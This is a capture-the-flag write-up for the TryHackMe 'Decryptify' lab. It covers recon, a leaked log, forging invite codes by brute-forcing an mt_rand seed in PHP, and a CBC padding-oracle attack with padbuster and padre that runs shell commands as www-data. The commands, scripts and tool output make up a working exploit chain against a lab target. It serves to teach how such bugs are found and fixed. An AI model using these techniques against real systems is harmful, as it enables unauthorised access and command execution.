







## Overview

**Decryptify** ([TryHackMe](https://tryhackme.com/room/decryptify)) is an invite-only PHP app where the invite codes turn out to be predictable `mt_rand()` output. A leaked log file gives up a base64 invite code and a hint about which user account is actually usable; an exposed API password — recycled straight out of the site's own obfuscated JS bundle — hands over the source for the invite-code generator, which is enough to brute-force the missing seed constant offline and predict a valid code for any known email. Flag two is a completely different bug once we're logged in: the dashboard's `date` parameter turns out to be a base64-encoded IV for a CBC cipher, and a verbose OpenSSL error is enough to run a textbook padding oracle attack, all the way to arbitrary command execution.



---

## Enumeration

```text
user@parrot ~ % nmap -sV -T4 10.114.142.109
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-27 21:02 UTC
Nmap scan report for 10.114.142.109
Host is up (0.065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nothing but SSH in the default top-1000, so full range:

```text
nmap -p- -T4 -sV 10.114.142.109
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-27 21:14 UTC
Nmap scan report for 10.114.142.109
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

1337 is a login page:


We can log in with just an invite code, and there's a separate API page:

`http://10.114.142.109:1337/api.php`



Started dir scanning:

```bash
ffuf -u http://10.114.142.109:1337/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -fc 403
```

```text
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 74ms]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 74ms]
logs                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 71ms]
javascript              [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 63ms]
.                       [Status: 200, Size: 3220, Words: 908, Lines: 77, Duration: 65ms]
phpmyadmin              [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 64ms]
```

`/logs` was worth checking on its own before anything else — found `http://10.114.142.109:1337/logs/app.log` sitting there with directory listing on:

```text
2025-01-23 14:32:56 - User POST to /index.php (Login attempt)
2025-01-23 14:33:01 - User POST to /index.php (Login attempt)
2025-01-23 14:33:05 - User GET /index.php (Login page access)
2025-01-23 14:33:15 - User POST to /index.php (Login attempt)
2025-01-23 14:34:20 - User POST to /index.php (Invite created, code: MTM0ODMzNzEyMg== for alpha@fake.thm)
2025-01-23 14:35:25 - User GET /index.php (Login page access)
2025-01-23 14:36:30 - User POST to /dashboard.php (User alpha@fake.thm deactivated)
2025-01-23 14:37:35 - User GET /login.php (Page not found)
2025-01-23 14:38:40 - User POST to /dashboard.php (New user created: hello@fake.thm)
```

`MTM0ODMzNzEyMg==` decodes as base64 to `1348337122` — a valid invite code for `alpha@fake.thm`. Except the same log says that account got deactivated right after, and a new user `hello@fake.thm` was created a few lines later. So the code exists but the account it's tied to doesn't work anymore.

---

## Initial Access — Predicting an Invite Code

Tried alpha's decoded code against `hello@fake.thm` on the off chance invite codes are account-agnostic:


Nope — invite code and email are linked, so `1348337122` only ever worked for `alpha`. Need a code that was actually issued for `hello`.

Remembered there was an obfuscated JS file on this site with a bunch of raw-looking strings in it — module hashes from a bundler, most likely, but worth a shot as invite material:

```text
16OTYqOr
861cPVRNJ
474AnPRwy
<API_PASSWORD>
5228dijopu
29131EDUYqd
8756315tjjUKB
1232020YOKSiQ
7042671GTNtXE
1593688UqvBWv
90209ggCpyY
```

Tried the whole list as invite codes for `hello@fake.thm`. Doesn't work — dead end.

Since I already had the list loaded in Burp, tried the same values as the *API* password instead, over on `api.php`, via Intruder:



One payload comes back different from the rest. So the API password is one of the same strings from the JS bundle — `<API_PASSWORD>`. Logged into the API docs with it.

The docs page shows the invite-code generation algorithm outright:

```php
// Token generation example
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}
$seed_value = calculate_seed_value($email, $constant_value);
mt_srand($seed_value);
$random = mt_rand();
$invite_code = base64_encode($random);
```

This is reversible as long as we know `$constant_value` — everything else (`$email_length`, `$email_hex`) we can compute ourselves, and `mt_rand()` is fully deterministic once seeded. The only unknown is one integer constant.

> `hexdec()` doesn't require a hex string — hand it a plain integer and PHP will happily string-cast it and parse whatever hex digits it can find, e.g. `hexdec("See")` gives `238` because it just reads the `e`s. That's exactly what's happening to `$email_length + $constant_value + $email_hex` here: it's an int going into a function built for strings, and PHP's loose typing lets it through anyway instead of erroring. Worth knowing this quirk exists before it looks like a bug in your own reversing script.
{: .prompt-tip }

`$constant_value` isn't huge, so brute-forcing it locally against the one known email/code pair (`alpha@fake.thm` → `MTM0ODMzNzEyMg==`) is cheap:

```php
<?php

$email = "alpha@fake.thm";
$found_invite = "MTM0ODMzNzEyMg==";

function calculate_seed_value($email, $constant_value)
{
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}

$constant_value = 1;

while (true) {
    $seed_value = calculate_seed_value($email, $constant_value);
    mt_srand($seed_value);
    $random = mt_rand();
    $invite_code = base64_encode($random);

    if ($found_invite == $invite_code) {
        echo $constant_value;
        break;
    } else {
        $constant_value += 1;
    }
}
```

```text
% php decrypt.php
99999
```

Constant is `99999`. Plug that in for `hello@fake.thm`:

```php
<?php

$email = 'hello@fake.thm';
$constant_value = 99999;

$email_length = strlen($email);
$email_hex = hexdec(substr($email, 0, 8));
$seed_value = hexdec($email_length + $constant_value + $email_hex);
mt_srand($seed_value);
$random = mt_rand();
$invite_code = base64_encode($random);

echo $invite_code;
```

```text
% php test.php
NDYxNTg5ODkx
```

Logged in with that code:



> **Flag 1** — recovered by reversing the invite generator's seed constant and predicting `hello@fake.thm`'s `mt_rand()`-derived invite code: `THM{...}`
{: .prompt-info }

---

## Exploitation — CBC Padding Oracle to RCE

Dashboard page source has this:

```html
<form method="get">
    <input type="hidden" name="date" value="ANUuBYS6pMDK4+9OMhXIFKE+ZTt/w96w/YkXpk/ji3U=">
</form>
```

Reloading the page gives a different `date` value every time — so this isn't a static token, something on the backend is generating it fresh per request.

Digging through the cookies while we're here, there's also a `role` cookie: `role=<ROLE_HASH>`. Ran it through hashes.com out of curiosity — comes back as a possible SHA3-384/Keccak-384 digest. Filed that away; nothing later in the box actually needed it, but it's the kind of thing worth noting in case it mattered.

Sending the `date` param empty gets an interesting error back:

`http://10.114.142.109:1337/dashboard.php?date`


And a random garbage date throws a different, more useful one:

`http://10.114.142.109:1337/dashboard.php?date=28.07.2026`


So `date` isn't a date at all — it's feeding straight into `openssl_decrypt()`'s IV parameter. Checked the PHP docs for the signature to be sure:

```text
openssl_decrypt(
    string $data,
    string $cipher_algo,
    string $passphrase,
    int $options = 0,
    string $iv = "",
    ?string $tag = null,
    string $aad = ""
): string|false
```

An IV of exactly 8 bytes rules out AES — AES's block size (and therefore IV length) is 16 bytes. 8-byte IV means an 8-byte block cipher, and that narrows it down fast: basically the DES family. `EVP_DecryptFinal_ex: wrong final block length` is a padding-related error specific to block modes that actually check padding, and since ECB doesn't use an IV at all, this has to be CBC. Playing with the digit count on the `date` param confirmed it further — add more digits and the error shifts to describe the leftover bytes, exactly the behavior you'd expect from something being consumed strictly as an IV.

CBC decryption throwing a distinguishable error on bad padding versus other failures is the textbook precondition for a padding oracle attack — this app was doing exactly that, verbosely, for anyone paying attention.

`padbuster` can automate the whole thing and, since it doubles as an encryption oracle once the padding behavior is understood, use it to encrypt our own plaintext into a valid ciphertext the server will decrypt and execute:

```text
padbuster "http://10.114.142.109:1337/dashboard.php?date=RcY2ixajIUGchQywXCLBwKkVuUs9Ae/Jwbe2PA0Upyc=" "RcY2ixajIUGchQywXCLBwKkVuUs9Ae/Jwbe2PA0Upyc=" 8 -encoding 0 -cookies "PHPSESSID=<SESSION_ID>; role=<ROLE_HASH>" -plaintext 'id'
```



Works, but `padbuster` is single-threaded and it shows — this took a while for one command. Switched to [`padre`](https://github.com/glebarez/padre), a Go padding-oracle tool that does the same job with real concurrency:

```text
% padre -u "http://10.114.142.109:1337/dashboard.php?date=\$" \
-cookie "PHPSESSID=<SESSION_ID>" \
-e b64 -b 8 -p 256 -enc "id"
[i] padre is on duty
[i] using concurrency (http connections): 256
[+] successfully detected padding oracle
[!] mode: encrypt
[1/1] 1AzpHOYt++JubnJycmllbA==
```

(`-b` is block size, `-enc` is the plaintext to encrypt, `-p` is parallel connections.)

To actually send that ciphertext back as the `date` value it needs URL-encoding first — special characters like `+` and `/` from base64 will get mangled otherwise:



Sent as the `data=` param, and the `id` output above confirms it: full RCE as `www-data`. From here we know the flag's location, so no need for a reverse shell — just encrypt the read command directly:

```text
padre -u "http://10.114.142.109:1337/dashboard.php?date=\$" \
-cookie "PHPSESSID=<SESSION_ID>" \
-e b64 -b 8 -p 256 -enc "cat /home/ubuntu/flag.txt" > res.txt
```

Terminal complained the output was too wide to display, hence redirecting straight to a file instead of eyeballing it.



> **Flag 2** — CBC padding oracle on the `date` param used as an encryption oracle to run arbitrary shell commands as `www-data`: `THM{...}`
{: .prompt-info }

---

## Conclusion

1. **World-readable app log** — `/logs/app.log` sat behind a predictable directory name and leaked a real invite code plus which accounts existed and their state.
2. **Password reuse between a JS bundle and the API** — the site's own front-end JS contained the API password verbatim, mixed in among strings that looked like build artifacts.
3. **Predictable invite codes via seeded `mt_rand()`** — the invite generator seeds PHP's Mersenne Twister from email-derived values plus one small unknown constant. Leaking the algorithm's source (via the API password) and one known email/code pair is enough to brute-force the constant and generate valid invite codes for any email.
4. **CBC padding oracle on `openssl_decrypt()`** — the `date` GET parameter is decrypted server-side as an IV with verbose, distinguishable errors on bad padding, letting a padding oracle attack encrypt arbitrary plaintext into ciphertext the server will decrypt and pass along — in this case straight into a command executed on the box.

### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap`, `ffuf` |
| Credential/invite brute force | Burp Suite (Intruder), custom PHP scripts |
| Padding oracle / RCE | `padbuster`, [`padre`](https://github.com/glebarez/padre), CyberChef (URL encode) |
